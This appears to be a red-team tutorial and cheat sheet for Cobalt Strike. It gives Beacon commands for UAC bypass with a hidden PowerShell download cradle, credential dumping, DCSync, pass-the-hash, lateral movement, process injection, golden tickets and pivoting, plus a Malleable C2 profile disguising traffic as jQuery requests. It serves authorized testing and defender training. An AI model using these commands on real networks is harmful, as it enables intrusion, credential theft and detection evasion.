



> **Notice:** This guide is intended for authorized penetration testing, red team engagements, and security research only. Unauthorized use of Cobalt Strike against systems you do not own or have explicit written permission to test is illegal.

## TL;DR

Cobalt Strike is a commercial adversary simulation framework widely used in authorized red team engagements. **Understanding its architecture, Beacon payloads, and post-exploitation capabilities is essential for both red teamers and defenders (blue team).** This guide covers the core workflow from listener setup through post-exploitation.

---

## Architecture Overview



### Core Components

| Component | Role |
|---|---|
| **Team Server** | Java-based C2 server; manages all Beacons and operator sessions |
| **Client (GUI)** | Operator interface connecting to Team Server |
| **Beacon** | Implant payload running on compromised host |
| **Listener** | C2 channel configuration (HTTP/HTTPS/SMB/DNS/TCP) |
| **Aggressor Script** | Built-in scripting language for automation and customization |
| **Malleable C2** | Profile system for customizing Beacon's network traffic appearance |

---

## Listeners

Listeners define how Beacons communicate back to the Team Server.

### Common Listener Types

| Type | Traffic | Use Case |
|---|---|---|
| HTTP | Port 80 | Egress through web proxies |
| HTTPS | Port 443 | Encrypted egress (most common) |
| DNS | UDP 53 | Firewall evasion, very slow |
| SMB | Named pipe | Internal lateral movement |
| TCP | Raw socket | Peer-to-peer Beacon chains |
| HTTPS Redirector | 443 via CDN | Attribution obfuscation |

### Creating an HTTPS Listener

```
Cobalt Strike → Listeners → Add
  Name:     lab-https
  Payload:  Beacon HTTPS
  Host:     192.168.1.10
  Port:     443
  Profile:  default (or Malleable C2 profile)
```

### SMB Beacon Listener (for lateral movement)

```
  Name:    lab-smb
  Payload: Beacon SMB
  Pipename: msagent_##   (## = random)
```

SMB Beacons communicate through named pipes — no outbound internet needed from the target.

---

## Beacon Payloads

### Generating Payloads

**Attacks → Packages → Windows Executable (Stageless)**

| Format | Use Case |
|---|---|
| Windows EXE | Direct execution |
| Windows Service EXE | `psexec` / SCM execution |
| Windows DLL | DLL injection, sideloading |
| PowerShell | `powershell -enc ...` delivery |
| Raw | Shellcode for custom loaders |
| HTML Application (HTA) | Browser delivery |

### Staged vs Stageless

| Type | Size | OPSEC | Notes |
|---|---|---|---|
| **Stageless** | Larger (~200KB+) | Better — no stager callback | Preferred for most ops |
| **Staged** | Tiny stager | Worse — stager is detectable | Useful for size-limited delivery |

---

## Beacon Interaction

Once a Beacon checks in, interact via the Beacon console:

```
beacon> help
```

### Basic Commands

| Command | Description |
|---|---|
| `sleep 60` | Check-in interval (seconds); `sleep 0` = interactive |
| `sleep 60 50` | 60s ± 50% jitter (OPSEC) |
| `pwd` | Print working directory |
| `ls` | List directory |
| `cd path` | Change directory |
| `download file` | Download file from target |
| `upload /local/file` | Upload file to target |
| `shell cmd` | Run via `cmd.exe /c` |
| `run cmd` | Run without `cmd.exe` (no stdout capture by default) |
| `execute-assembly tool.exe args` | Run .NET assembly in memory |
| `powershell command` | Run via PowerShell |
| `powerpick command` | Unmanaged PowerShell (no powershell.exe) |

### Process Information

```
beacon> ps                    # List processes
beacon> getuid                # Current user
beacon> getpid                # Current PID
beacon> getsystem             # Attempt SYSTEM escalation
```

### Screenshot & Keylogger

```
beacon> screenshot            # Single screenshot
beacon> screenwatch           # Continuous screenshots
beacon> keylogger             # Start keylogger (inject into process)
beacon> keylogger_stop        # Stop
beacon> jobs                  # List running jobs
beacon> jobkill <id>          # Kill a job
```

---

## Privilege Escalation

### Built-in Elevation Modules

```
beacon> elevate               # List available exploits
beacon> elevate uac-token-duplication <listener>
beacon> elevate svc-exe <listener>
```

### runasadmin (token bypass)

```
beacon> runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX..."
```

### Import and Run External Modules

```
beacon> execute-assembly /opt/tools/SharpUp.exe audit
beacon> execute-assembly /opt/tools/Seatbelt.exe -group=all
```

---

## Credential Harvesting

### Built-in Mimikatz Integration

```
beacon> hashdump              # Dump local SAM (requires SYSTEM)
beacon> logonpasswords        # sekurlsa::logonpasswords
beacon> dcsync <domain> <user>  # DCSync for specific user
```

### All Credentials from View Menu

```
View → Credentials
```

Aggregates all collected hashes and plaintext passwords across the engagement.

### Make Token (use captured credential)

```
beacon> make_token DOMAIN\user password     # Create logon token
beacon> rev2self                            # Drop token
```

### Steal Token from Process

```
beacon> steal_token <PID>    # Impersonate token from process
beacon> rev2self             # Revert
```

---

## Lateral Movement



### Jump Commands (one-step lateral movement)

```
beacon> jump                  # List available methods
beacon> jump psexec   target  listener   # PsExec service
beacon> jump psexec64 target  listener   # PsExec 64-bit
beacon> jump winrm    target  listener   # WinRM
beacon> jump winrm64  target  listener   # WinRM 64-bit
beacon> jump wmi      target  listener   # WMI
beacon> jump wmi64    target  listener   # WMI 64-bit
```

### Remote-exec (run command, no Beacon)

```
beacon> remote-exec psexec  target command
beacon> remote-exec wmi     target command
beacon> remote-exec winrm   target command
```

### Manual SMB Beacon Connection

After deploying a payload that spawns an SMB Beacon:

```
beacon> link target           # Connect to SMB Beacon via named pipe
beacon> unlink target         # Disconnect
```

### Pass-the-Hash + Lateral Movement

```
beacon> pth DOMAIN\user NTLM_HASH   # Inject hash, returns impersonation token
beacon> jump psexec target lab-smb  # Move laterally with stolen token
beacon> rev2self
```

---

## Post-Exploitation Modules

### Port Scanning

```
beacon> portscan 192.168.1.0/24 1-1024,3389,8080-8090 arp 1024
```

### Network Enumeration

```
beacon> net computers           # List domain computers
beacon> net domain              # Domain info
beacon> net domain_controllers  # List DCs
beacon> net group_list          # List domain groups
beacon> net localgroup          # Local groups on target
beacon> net sessions            # Active sessions on target
beacon> net share               # Shared folders
beacon> net user                # List domain users
beacon> net view                # Hosts on network
```

### SOCKS Proxy (pivot)

```
beacon> socks 1080              # Start SOCKS4a proxy on Team Server port 1080
beacon> socks stop              # Stop

# Then configure proxychains on attacker:
# proxychains nmap -sT 192.168.10.0/24
```

### Port Forwarding

```
beacon> rportfwd 8080 192.168.10.5 80   # Local 8080 → internal 192.168.10.5:80
beacon> rportfwd stop 8080
```

---

## Injection & Process Manipulation

### Spawn + Inject into New Process

```
beacon> spawn listener          # Spawn child Beacon with new process
beacon> spawnas DOMAIN\user password listener   # Spawn as another user
```

### Inject into Existing Process

```
beacon> inject <PID> x64 listener   # Inject into running process
```

### Shinject (custom shellcode injection)

```
beacon> shinject <PID> x64 /path/to/shellcode.bin
```

### PPID Spoofing

```
beacon> ppid <PID>    # All spawned processes will use this as parent
```

### Blockdlls (block non-Microsoft DLLs in spawned processes)

```
beacon> blockdlls start
beacon> blockdlls stop
```

---

## Kerberos Operations

```
beacon> kerberos_ticket_use /path/to/ticket.kirbi   # PTT
beacon> kerberos_ticket_purge                        # Clear tickets
beacon> golden /domain:corp.local /sid:<SID> /krbtgt:<HASH> /user:Administrator  # Golden Ticket
beacon> silver /domain:corp.local /sid:<SID> /service:cifs /target:dc01 /rc4:<HASH> /user:admin  # Silver Ticket
beacon> dcsync corp.local CORP\krbtgt               # Sync krbtgt hash
```

---

## Malleable C2 Profiles

Malleable C2 profiles control how Beacon traffic looks on the wire — critical for evading network detection.

### Key Profile Sections

```
# Example: make Beacon look like a jQuery request
http-get {
    set uri "/jquery-3.3.1.min.js";

    client {
        header "Host" "ajax.googleapis.com";
        header "Accept-Encoding" "gzip, deflate";
        metadata {
            base64url;
            parameter "callback";
        }
    }

    server {
        header "Content-Type" "application/javascript";
        output {
            prepend "jQuery.ajax({url:'/api',data:'";
            append "'});";
            print;
        }
    }
}
```

### Validate Profile Before Loading

```bash
./c2lint /path/to/profile.profile
```

---

## Aggressor Script Basics

Automate tasks with Cobalt Strike's built-in scripting language:

```
# Auto-run commands when a new Beacon checks in
on beacon_initial {
    local('$bid');
    $bid = $1;
    binput($bid, "Beacon initialized");
    blog($bid, "Running post-exploitation recon...");
    bshell($bid, "whoami /all");
    bps($bid);           # Process list
    bgetuid($bid);
}
```

Load a script:

```
Cobalt Strike → Script Manager → Load → select .cna file
```

---

## Operational Workflow Summary



---

## Quick Reference

| Goal | Command |
|---|---|
| Check-in interval with jitter | `sleep 60 50` |
| Dump local hashes | `hashdump` |
| Dump domain creds | `logonpasswords` |
| DCSync | `dcsync corp.local CORP\user` |
| Pass-the-Hash | `pth DOMAIN\user HASH` |
| Lateral movement (PsExec) | `jump psexec target listener` |
| SMB Beacon link | `link target` |
| Execute .NET tool | `execute-assembly tool.exe args` |
| SOCKS proxy | `socks 1080` |
| Inject into process | `inject <PID> x64 listener` |
| Golden Ticket | `golden /krbtgt:HASH /user:X` |
| Screenshot | `screenshot` |
| Port scan | `portscan <range> <ports>` |
